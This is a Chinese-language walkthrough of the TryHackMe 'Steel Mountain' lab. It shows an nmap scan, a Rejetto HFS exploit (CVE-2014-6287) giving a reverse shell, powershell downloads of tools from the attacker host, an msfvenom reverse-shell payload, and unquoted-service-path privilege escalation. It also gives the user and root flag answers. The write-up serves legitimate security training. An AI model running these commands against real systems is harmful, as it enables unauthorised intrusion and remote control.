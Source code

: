 # Steel Mountain Writeup
> URL : https://tryhackme.com/room/steelmountain

IP : 10.10.27.172

## Scan
- `rustscan -a 10.10.27.172`
	- ![](https://i.imgur.com/tvomY1S.png)
- `nmap -A 10.10.27.172` 
	```
	Starting Nmap 7.91 ( https://nmap.org ) at 2021-08-05 01:58 EDT
	Nmap scan report for 10.10.27.172
	Host is up (0.27s latency).
	Not shown: 989 closed ports
	PORT      STATE SERVICE            VERSION
	80/tcp    open  http               Microsoft IIS httpd 8.5
	| http-methods: 
	|_  Potentially risky methods: TRACE
	|_http-server-header: Microsoft-IIS/8.5
	|_http-title: Site doesn't have a title (text/html).
	135/tcp   open  msrpc              Microsoft Windows RPC
	139/tcp   open  netbios-ssn        Microsoft Windows netbios-ssn
	445/tcp   open  microsoft-ds       Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
	3389/tcp  open  ssl/ms-wbt-server?
	| ssl-cert: Subject: commonName=steelmountain
	| Not valid before: 2021-08-04T05:45:04
	|_Not valid after:  2022-02-03T05:45:04
	|_ssl-date: 2021-08-05T05:59:31+00:00; 0s from scanner time.
	8080/tcp  open  http               HttpFileServer httpd 2.3
	|_http-server-header: HFS 2.3
	|_http-title: HFS /
	49152/tcp open  msrpc              Microsoft Windows RPC
	49153/tcp open  msrpc              Microsoft Windows RPC
	49154/tcp open  msrpc              Microsoft Windows RPC
	49155/tcp open  unknown
	49156/tcp open  msrpc              Microsoft Windows RPC
	Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

	Host script results:
	|_nbstat: NetBIOS name: STEELMOUNTAIN, NetBIOS user: <unknown>, NetBIOS MAC: 02:5d:12:51:16:37 (unknown)
	| smb-security-mode: 
	|   account_used: <blank>
	|   authentication_level: user
	|   challenge_response: supported
	|_  message_signing: disabled (dangerous, but default)
	| smb2-security-mode: 
	|   2.02: 
	|_    Message signing enabled but not required
	| smb2-time: 
	|   date: 2021-08-05T05:59:18
	|_  start_date: 2021-08-05T05:44:25

	Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
	Nmap done: 1 IP address (1 host up) scanned in 90.76 seconds
	```
- 觀察首頁
	- http://10.10.27.172/
	- ![](https://i.imgur.com/B9oU5Rr.png)
	- 有一個 Employee of the month
		- 圖片網址 http://10.10.27.172/img/BillHarper.png
- Who is the employee of the month?
	- `Bill Harper`
- Scan the machine with nmap. What is the other port running a web server on?
	- 8080
- Take a look at the other web server. What file server is running?
	- 透過 NMAP 可以發現 HttpFileServer
	- 公司叫做 rejetto
	- 所以答案 `Rejetto Http File Server`
- HFS 的版本 `2.3` 可以找到有一個CVE
	- https://www.exploit-db.com/exploits/39161
	- `CVE-2014-6287` 

## Exploit
- 下載檔案到 kali
	- `wget https://www.exploit-db.com/download/39161 -O 39161.py`
 	- 修改內部的 ip 及 port
 	- `ip_addr = "10.13.21.55"`
 	- `local_port = "7878"`
 		- 這邊的 port 是指 reverse shell 的port
- 另外依照 exploit 需求，需要在攻擊機 80 port 開一個 webserver，並在根目錄放一個 `nc.exe`
	- `nc.exe` 可以從這邊取得
		- https://github.com/int0x33/nc.exe/blob/master/nc.exe
 	- `sudo python3 -m http.server 80`
 		- 使用 python 開啟 80 port 的 webserver
	- 並於本地端開啟 nc 監聽
		- `nc -l 7877`
	- 執行 exploit
		- `python 39161.py 10.10.27.172 8080`
		- ![](https://i.imgur.com/DZRh2qx.png)
- 就可以收到 shell ㄌ!
	- ![](https://i.imgur.com/gDf00JU.png)
	- 使用 `whoami` 確認使用者名稱
		- ![](https://i.imgur.com/b5RWX79.png)
	- 在使用者的桌面找到 user flag
		- ![](https://i.imgur.com/kPPBKKU.png)
		- `b04763b6fcf51fcd7c13abc7db4fd365`

## 觀察提權資訊
- 輸入 `systeminfo` 可以觀察到
	- `Microsoft Windows Server 2012 R2 Datacenter`
	- ![](https://i.imgur.com/rOMp0al.png)

- 下載 WinPeas.exe 進行掃描
	- `powershell -c wget http://10.13.21.55:8000/winPEASx64.exe -outFile winPEASx64.exe`
- 執行 Winpeas 發現有可疑ㄉ引號路徑漏洞
	- ![](https://i.imgur.com/e0xm9JH.png)
- 觀察 Services
	- 可以輸入 `powershell -c Get-Service` 觀察目前的所有 Services
	- WinPeas 也已經很好心的告訴我們是 `AdvancedSystemCareService9` 了
- 確認檔案與 Services 的權限
	- 先準備 https://docs.microsoft.com/en-us/sysinternals/downloads/accesschk 在攻擊機
	- `powershell -c wget http://10.13.21.55:8000/accesschk.exe -outFile accesschk.exe`
- 觀察 Services 權限
	- `accesschk.exe /accepteula -ucqv AdvancedSystemCareService9`
	- ![](https://i.imgur.com/gmO6qI7.png)
	- 可以發現我們的使用者 bill
	- 可以幫 services
		- `Start`
		- `Stop`
- 觀察檔案權限
	- `accesschk -uwdq "C:\Program Files (x86)\"`
		- 可以看到我們沒有權限
		- ![](https://i.imgur.com/3X20RSe.png)
	- `accesschk -uwdq "C:\Program Files (x86)\IoBit`
		- ![](https://i.imgur.com/9yC2NTI.png)
		- 發現我們有 RW 權限!!
- 透過 msfevon 產出一個 reverse shell
	- `msfevon -p windows/x64_shell_reverse_tcp LHOST=10.13.21.55 LPORT=8877 -f exe -a Advanced.exe`
		- ![](https://i.imgur.com/5lMroiV.png)
	- 下載檔案並放置到 `C:\Program Files (x86)`
		- `powershell -c wget http://10.13.21.55:8000/Advanced.exe -outFile Advanced.exe`
		- ![](https://i.imgur.com/7FIBZMQ.png)
		- 準備 reverse shell 監聽
			- `nc -vlk 8877`
- 觀察 services
	- `sc qc AdvancedSystemCareService9`
		- ![](https://i.imgur.com/tgYWwGx.png)
	- qc : Query system config

- 停止 services
	- `sc stop AdvancedSystemCareService9`
	- ![](https://i.imgur.com/dSdNw65.png)
- 重啟 services
	- `sc start AdvancedSystemCareService9`
	- ![](https://i.imgur.com/a9x5ekb.png)
	- 會發現畫面卡住，因為我們的 reverse sehll 已經接上了!!
	- ![](https://i.imgur.com/AneRNlp.png)
- 取得 root flag
	- ![](https://i.imgur.com/G8cXc1F.png)
	- `9af5f314f57607c00fd09803a587db80`